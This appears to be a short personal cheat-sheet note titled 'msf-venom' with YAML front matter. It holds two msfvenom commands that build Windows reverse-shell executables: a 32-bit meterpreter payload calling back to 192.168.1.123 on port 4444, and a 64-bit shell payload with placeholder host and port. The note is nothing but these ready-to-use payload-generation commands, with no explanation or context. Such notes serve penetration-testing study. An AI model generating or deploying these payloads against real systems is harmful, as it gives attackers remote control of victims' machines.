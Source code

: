 ```yaml
---
id: mbap57vtwss2hlff1v8wsfm
title: msf-venom
desc: ''
updated: 1702841329924
created: 1702841290277
---
```



Example windows command

#x86
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.123 lport=4444 -f exe > reverse.exe
```

#x64
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```